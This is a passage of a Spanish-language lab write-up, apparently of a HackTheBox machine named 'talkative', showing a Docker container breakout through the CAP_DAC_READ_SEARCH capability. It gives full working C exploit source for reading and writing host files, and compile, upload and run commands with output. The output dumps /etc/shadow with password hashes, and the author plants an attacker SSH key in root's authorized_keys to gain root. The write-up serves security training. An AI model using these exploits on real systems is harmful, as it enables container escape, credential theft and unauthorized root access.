nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```
Y efectivamente, es vulnerable.

Pero como `cdk` te automatiza la explotación, no se podría utilizar en el OSCP.

¡Así que vamos a explotarlo manualmente!

## Abusing CAP_DAC_READ_SEARCH
Podemos utilizar un exploit de openwall llamado `shocker.c` y modificarlo para conseguir lo que queramos.
https://tbhaxor.com/container-breakout-part-2/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
    unsigned int handle_bytes;
    int handle_type;
    unsigned char f_handle[8];
};

void die(const char *msg)
{
    perror(msg);
    exit(errno);
}

void dump_handle(const struct my_file_handle *h)
{
    fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
    h->handle_type);
    for (int i = 0; i < h->handle_bytes; ++i) {
        fprintf(stderr,"0x%02x", h->f_handle[i]);
        if ((i + 1) % 20 == 0)
        fprintf(stderr,"\n");
        if (i < h->handle_bytes - 1)
        fprintf(stderr,", ");
    }
    fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
    int fd;
    uint32_t ino = 0;
    struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
    };
    DIR *dir = NULL;
    struct dirent *de = NULL;
    path = strchr(path, '/');
    // recursion stops if path has been resolved
    if (!path) {
        memcpy(oh->f_handle, ih->f_handle, sizeof(oh->f_handle));
        oh->handle_type = 1;
        oh->handle_bytes = 8;
        return 1;
    }

    ++path;
    fprintf(stderr, "[*] Resolving '%s'\n", path);
    if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
        die("[-] open_by_handle_at");
    if ((dir = fdopendir(fd)) == NULL)
        die("[-] fdopendir");
    for (;;) {
        de = readdir(dir);
        if (!de)
        break;
        fprintf(stderr, "[*] Found %s\n", de->d_name);
        if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
            fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
            ino = de->d_ino;
            break;
        }
    }

    fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
    if (de) {
        for (uint32_t i = 0; i < 0xffffffff; ++i) {
            outh.handle_bytes = 8;
            outh.handle_type = 1;
            memcpy(outh.f_handle, &ino, sizeof(ino));
            memcpy(outh.f_handle + 4, &i, sizeof(i));
            if ((i % (1<<20)) == 0)
                fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
            if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                closedir(dir);
                close(fd);
                dump_handle(&outh);
                return find_handle(bfd, path, &outh, oh);
            }
        }
    }
    closedir(dir);
    close(fd);
    return 0;
}


int main(int argc,char* argv[] )
{
    char buf[0x1000];
    int fd1, fd2;
    struct my_file_handle h;
    struct my_file_handle root_h = {
        .handle_bytes = 8,
        .handle_type = 1,
        .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
    };
    
    fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
    
    read(0, buf, 1);
    
    // get a FS reference from something mounted in from outside
    if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
        die("[-] open");
    
    if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
    
    fprintf(stderr, "[!] Got a final handle!\n");
    dump_handle(&h);
    
    if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
        die("[-] open_by_handle");
    
    memset(buf, 0, sizeof(buf));
    if (read(fd2, buf, sizeof(buf) - 1) < 0)
        die("[-] read");
    
    printf("Success!!\n");
    
    FILE *fptr;
    fptr = fopen(argv[2], "w");
    fprintf(fptr,"%s", buf);
    fclose(fptr);
    
    close(fd2); close(fd1);
    
    return 0;
}
```

Como no soy un gran experto en C. Podemos pedirle a ChatGPT que nos explique que hace el script de forma detallada.

1. **Funciones Clave**:
    
    - `die(const char *msg)`: Muestra un mensaje de error y termina el programa.
    - `dump_handle(const struct my_file_handle *h)`: Imprime los detalles de un identificador de archivo.
    - `find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)`:
        - Recursivamente encuentra el identificador de un archivo basado en un camino (`path`) dado.
        - Utiliza `open_by_handle_at` para abrir directorios y archivos mediante identificadores.
        - Realiza una búsqueda exhaustiva (brute force) para encontrar el identificador correcto del archivo deseado.
2. **Función Principal (`main`)**:
    
    - Imprime un mensaje de introducción indicando que es un exploit.
    - Espera una entrada del usuario para continuar.
    - Abre `/etc/hostname` para obtener una referencia a un archivo del host. Este archivo debe estar montado dentro del contenedor.
    - Usa `find_handle` para encontrar el identificador del archivo especificado en `argv[1]` (por ejemplo, `/etc/shadow`).
    - Si encuentra un identificador válido, abre el archivo con `open_by_handle_at`.
    - Lee el contenido del archivo y lo guarda en un buffer.
    - Escribe el contenido del buffer en un archivo especificado en `argv[2]` (por ejemplo, `shadow`).
    - Cierra los archivos y termina.

### Requisitos para que el Exploit Funcione

1. **Montaje del Sistema de Archivos del Host**:
    
    - El contenedor debe tener acceso a un archivo del sistema de archivos del host que esté montado dentro del contenedor. En este caso, se usa `/etc/hostname`.
2. **Privilegios y Capacidades del Contenedor**:
    
    - El contenedor debe tener suficientes privilegios para usar `open_by_handle_at`. Esto generalmente requiere que el contenedor tenga capacidades elevadas, como `CAP_DAC_READ_SEARCH`, `CAP_SYS_ADMIN` y `CAP_DAC_OVERRIDE`.
    - El contenedor debe poder usar `fdopendir`, `readdir` y otras llamadas del sistema relacionadas con la manipulación de directorios y archivos.
3. **Kernel del Sistema Operativo**:
    
    - El sistema operativo del host debe soportar la llamada al sistema `open_by_handle_at`, que es una característica específica de kernels de Linux.
4. **Sin Restricciones de Seguridad Adicionales**:
    
    - No debe haber restricciones de seguridad adicionales que impidan el acceso a `open_by_handle_at` desde el contenedor. Esto incluye configuraciones de seguridad como SELinux, AppArmor u otras políticas de seguridad que podrían bloquear estas operaciones.

Una vez tenemos este script en nuestra máquina de atacante, tenemos que modificar el script para indicar que archivo queremos abrir como referencia, para que el script sepa que la máquina es vulnerable.


En mi caso, vamos a elegir el `/etc/hosts` ya que como la máquina víctima es linux, sabemos que existe este archivo.


Ahora compilamos el script.
```shell
 gcc -Wall -std=c99 -O2 shocker.c -static -o shocker
```

Lo subimos a la máquina víctima
```shell
(local) pwncat$ upload shocker /tmp/shocker
/tmp/shocker ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 767.1/767.1 KB • ? • 0:00:00
[23:21:17] uploaded 767.10KiB in 0.77 seconds
```

```shell
(remote) root@c150397ccd63:/tmp# ./shocker /etc/hosts hosts
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[+] Match: etc ino=393217
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found modules-load.d
[*] Found lsb-release
[*] Found rsyslog.conf
[*] Found rc6.d
[*] Found calendar
[*] Found fstab
[*] Found shadow
[+] Match: shadow ino=393228
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```

¡Y perfecto!

Ahora podríamos modificar el archivo que intenta abrir el script, para ver la flag de superusuario.


Compilamos el binario, lo subimos, lo ejecutamos y...

```shell
(remote) root@c150397ccd63:/tmp# ./shocker 
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'root/root.txt'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[*] Found lib
[*] Found libx32
[*] Found cdrom
[*] Found root
[+] Match: root ino=18
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'root.txt'
[*] Found ..
[*] Found .backup
[*] Found .config
[*] Found .cache
[*] Found .local
[*] Found .ssh
[*] Found .
[*] Found .profile
[*] Found .bashrc
[*] Found root.txt
[+] Match: root.txt ino=110097
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root.txt) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
5f8e5df33844d437...
```

¡Y podemos leer la flag!

A mi este tipo de cosas no me gusta, por lo cual quiero ganar una consola interactiva en la máquina víctima.

En HackTricks, podemos ver un script modificado que nos permitiría escribir archivos.
```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};
void die(const char * msg) {
  perror(msg);
  exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
} 
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
  struct dirent * de = NULL;
  path = strchr(path, '/');
  // recursion stops if path has been resolved
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }
  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}
int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
      0,
      0
    }
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```

Lo que voy a realizar es ver el archivo `/etc/sudoers` aprovechando esta vulnerabilidad.

Y editar al usuario `saul` para que tenga permisos para ejecutar como `root` cualquier comando. Luego, con el script modificado, intentaré escribir el `/etc/sudoers` y si lo consigo, debería de cerrar sesión en el SSH, iniciar sesión de nuevo y hacer un `sudo su` como el usuario `saul` y convertirme en `root`

Primero compilamos `shocker.c` para leer el archivo `/etc/sudoers`


Y al ejecutarlo podemos leerlo
```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

```


Ahora agregamos al usuario `saul` para que pueda ejecutar cualquier comando como cualquier usuario..


Ahora compilamos el script `shocker_write.c`
```shell
$ gcc -Wall -std=c99 -O2 shocker_write.c -static -o shocker_write
```

Subimos tanto el `sudoers` como el binario `shocker_write` ya compilado
```shell
(local) pwncat$ upload sudoers /tmp/sudoers
/tmp/sudoers ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 778/778 bytes • ? • 0:00:00
[23:33:36] uploaded 778.00B in 0.68 seconds                                   upload.py:76
(local) pwncat$ upload shocker_write /tmp/shocker_write
/tmp/shocker_write ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 17.1/17.1 KB • ? • 0:00:00
[23:34:24] uploaded 17.06KiB in 0.59 seconds
```


```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /etc/sudoers sudoers
...
[*] Found bash_completion.d
[*] Found apt
[*] Found services
[*] Found udev
[*] Found ltrace.conf
[*] Found selinux
[*] Found multipath
[*] Found udisks2
[*] Found sensors3.conf
[*] Found sudoers
[+] Match: sudoers ino=393977
[*] Brute forcing remaining 32bit. This can take a while...
[*] (sudoers) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf9, 0x02, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf9, 0x02, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[-] open_by_handle: Permission denied

```

Vaya...
```shell
saul@talkative:~$ sudo su
[sudo] password for saul: 
saul is not in the sudoers file.  This incident will be reported.
```


Sin embargo, si intentamos modificar otro archivo como el `/etc/hostname` por probar...
```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /etc/hostname test
...
[*] #=8, 1, char nh[] = {0x8a, 0x6e, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

Vemos que funciona.
```shell
saul@talkative:~$ cat /etc/hostname
test
tive
```

Alternativamente, podemos intentar escribir al archivo `/root/.ssh/authorized_keys` mi clave publica de atacante, y pasarme la clave privada la consola que tenemos como `saul` en la máquina víctima, para a través de ahí conectarme por SSH utilizando mi clave privada.

Cogemos mi clave pública `id_rsa.pub` y la copiamos a la máquina víctima al archivo `authorized_keys`
```shell
(remote) root@c150397ccd63:/tmp# echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo2yQ4yRG6UxDOEzD6Yt2JbxEZdsZqX7S1NY33zv9vtI26rLzcMLvLgjux8+dp+cuHqt3ZnBTcH....... pointedsec@parrot" > authorized_keys
```


Y ahora ejecutamos el exploit, y... ¡esto tiene mejor pinta!
```shell
(remote) root@c150397ccd63:/tmp# ./shocker_write /root/.ssh/authorized_keys authorized_keys 
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>

[*] Resolving 'root/.ssh/authorized_keys'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[*] Found lib
[*] Found libx32
[*] Found cdrom
[*] Found root
[+] Match: root ino=18
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving '.ssh/authorized_keys'
[*] Found ..
[*] Found .backup
[*] Found .config
[*] Found .cache
[*] Found .local
[*] Found .ssh
[+] Match: .ssh ino=9718
[*] Brute forcing remaining 32bit. This can take a while...
[*] (.ssh) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf6, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'authorized_keys'
[*] Found ..
[*] Found id_rsa.pub
[*] Found .
[*] Found known_hosts
[*] Found authorized_keys
[+] Match: authorized_keys ino=9720
[*] Brute forcing remaining 32bit. This can take a while...
[*] (authorized_keys) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf8, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf8, 0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

Ahora nos compartimos nuestra clave privada de atacante `(id_rsa)` a la máquina víctima, donde teníamos la sesión con el usuario `saul`
```shell
$ scp id_rsa saul@127.0.0.1:/tmp/id_rsa
saul@127.0.0.1's password: 
id_rsa                                                  100% 2602    56.9KB/s   00:00
```

Ahora podemos asignar permisos permisos a esta clave privada y utilizando la autenticación por clave asimétrica e intentar iniciar sesión como `root` en el equipo local (que es la máquina víctima ya que estamos en la sesión SSH con el usuario `saul`) 

```shell
saul@talkative:/tmp$ chmod 600 id_rsa 
saul@talkative:/tmp$ ssh -i id_rsa root@127.0.0.1
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 06 Aug 2024 07:53:16 PM UTC

  System load:                      0.0
  Usage of /:                       73.4% of 8.80GB
  Memory usage:                     70%
  Swap usage:                       29%
  Processes:                        452
  Users logged in:                  1
  IPv4 address for br-ea74c394a147: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.222.158
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:f20

  => There are 43 zombie processes.


18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug  6 19:48:56 2024 from 127.0.0.1
root@talkative:~# id
uid=0(root) gid=0(root) groups=0(root)

```

¡Nos convertimos en `root`!

Podemos leer la flag de `root` en condiciones.
```shell
root@talkative:~# cat root.txt
5f8e5df33844d4....
```

¡Y ya estaría!

Happy Hacking! 🚀